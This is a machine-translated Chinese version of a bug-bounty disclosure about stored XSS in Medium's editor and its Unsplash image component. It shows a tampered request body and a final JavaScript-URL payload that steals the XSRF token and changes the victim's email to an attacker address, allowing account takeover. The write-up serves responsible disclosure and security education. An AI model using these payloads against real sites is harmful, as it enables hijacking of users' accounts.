 # 写我的中型博客来完成帐户接管

> 原文：<https://infosecwriteups.com/writing-my-medium-blog-to-complete-account-takeover-e65d455c16b?source=collection_archive---------1----------------------->

几周前的一个晚上，我正在写一篇新媒体博客，主题是——为什么公司应该拥抱 bug-bounty 平台，直到我陷入文思枯竭。

我心想“让我们花几分钟做点别的事情，然后再回来”。当我需要休息的时候我会做什么？我开始摆弄最近的应用程序，这次是 Medium 的故事编辑页面。

我不太记得是怎么做的了，但是我注意到我可以用像`mailto:`这样的特殊模式添加链接，然后我的第一个想法是——如果我可以使用`mailto:`，那么`javascript:`呢？

不，那没用。

我正要继续我的生活，但我脑海中有一个小小的声音在呼喊

所以我选择了那个小声音，这一次我尝试了`jAvAsCrIpT:confirm()`，我无法相信——成功了。🙄

链接被添加到我的故事中，当我作为阅读器打开它并点击链接时，会弹出一个确认对话框。

## **概念验证**

![](img/f79a5ed1755e3c392429d9db5e5ed416.png)

读者点击链接，弹出一个确认对话框

好了，我在《灵媒的面包和黄油》上找到了一个储存的 XSS——它的故事。我报告了这个问题，然后上床睡觉。

## 更多，我想要更多

第二天我醒来时有一个困扰的想法——我只花了 5 分钟就找到了一个非常简单的存储 XSS。真的如此寂寞吗？

我已经添加了一个 *Unsplash 图像*到一个故事中，并用 Burp Suite 拦截了这个请求。请求看起来是这样的:

```
*POST /p/8f2xxxxxxx/deltas?logLockId=970 HTTP/1.1
Host: medium.com
User-Agent: [Redacted]
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://medium.com/p/*8f2xxxxxxx*/edit
X-Obvious-CID: web
X-XSRF-Token: [Redacted]
X-Client-Date: [Redacted]
Content-Type: application/json
Content-Length: 536
Connection: close
Cookie: [Redacted]
{"id":"*8f2xxxxxxx*","deltas":[{"type":3,"index":1,"paragraph":{"name":"exxx","type":4,"text":"Photo by Some Author on Unsplash","markups":[{"type":3,"start":9,"end":17,"href":"*https://medium.com/r/?url=https%3A%2F%2Funsplash.com%2F%40someauthor%3Futm_source%3Dmedium%26utm_medium%3Dreferral*","title":"","rel":"photo-creator","anchorType":0},{"type":3,"start":21,"end":29,"href":"*https://medium.com/r/?url=https%3A%2F%2Funsplash.com%2F%40someauthor%3Futm_source%3Dmedium%26utm_medium%3Dreferral*","title":"","rel":"photo-source","anchorType":0}],"layout":1,"metadata":{"id":"0*xxxxxx","originalWidth":"\"alt='test'","originalHeight":5219,"alt":"","unsplashPhotoId":"xxxxx"}},"verifySameName":true}],"baseRev":28}*
```

然后，我将两个 href 值替换为我在第一个 XSS 上使用的相同有效载荷。
请求被篡改的正文看起来像:

```
*{"id":"*8f2xxxxxxx*","deltas":[{"type":3,"index":1,"paragraph":{"name":"exxx","type":4,"text":"Photo by Some Author on Unsplash","markups":[{"type":3,"start":9,"end":17,"href":"*jAvAsCrIpT:confirm()*","title":"","rel":"photo-creator","anchorType":0},{"type":3,"start":21,"end":29,"href":"*jAvAsCrIpT:confirm()*","title":"","rel":"photo-source","anchorType":0}],"layout":1,"metadata":{"id":"0*xxxxxx","originalWidth":"\"alt='test'","originalHeight":5219,"alt":"","unsplashPhotoId":"xxxxx"}},"verifySameName":true}],"baseRev":28}*
```

你猜怎么着，成功了！

![](img/aee667f6dcf1fb4a5c1d2a00764d7131.png)

另一个存储在 Unsplash 图像组件中的 XSS

## 增加影响

根据 Medium 的 bug-bounty 页面，他们只为 XSS 支付了 100 美元，但我想赢得大奖:

> 漏洞或绕过重要的安全控制:1000 美元

由于我已经在一个故事中存储了多个 XSS，我想通过**演示一个完整的帐户接管**来增加影响。

由于会话 cookie 被设置为 HTTP Only，我们不能只是窃取 cookie，我们必须更加努力地工作。
我直接进入我的用户资料，查看我是否可以在不输入密码的情况下用另一个电子邮件更改我的电子邮件，我发现我可以。太好了！所以为了测试，我手动更改了我的电子邮件，使用了“神奇链接”功能，向我的新电子邮件发送了一个临时登录链接，我进入了我的新电子邮件地址帐户。

## 自动化攻击

我们需要执行的步骤是:

*   获取用户的 XSRF 令牌(我提醒你，没有 cookies 给你！)
*   用新的电子邮件向`/me/email`端点发送 PUT 请求

我使用的最终有效载荷:

```
*JaVaScRiPt:var x=window.__PRELOADED_STATE__.session.xsrf;var h = new XMLHttpRequest();h.open(‘PUT’, ‘/me/email’, true);h.setRequestHeader(‘Content-Type’, ‘application/json’);h.setRequestHeader(‘X-XSRF-Token’, x);h.send(‘{“email”:”attacker@malicious.com”}’);*
```

## 报告时间线

2019 年 7 月 10 日—初始报告
2019 年 7 月 10 日—用 Unsplash 映像中存储的另一个 XSS 更新报告
2019 年 7 月 12 日—用完整的帐户接管演示更新报告
2019 年 7 月 13 日 Medium 安全团队的首次回应

![](img/1413791f1d5d9a9a65a13d44dc947979.png)

2019 年 8 月 3 日—问题已修复，我已获准披露
2019 年 8 月 6 日—我被添加到[媒体的 humans.txt 文件](https://medium.com/humans.txt)

![](img/281dc47e800311c914998a368f3f2e21.png)

这是我的第一篇技术 bug-bounty 文章，希望你喜欢。如果你有，请随时关注我。

感谢 Medium 的安全团队以超级专业的方式处理了这份报告，并允许披露。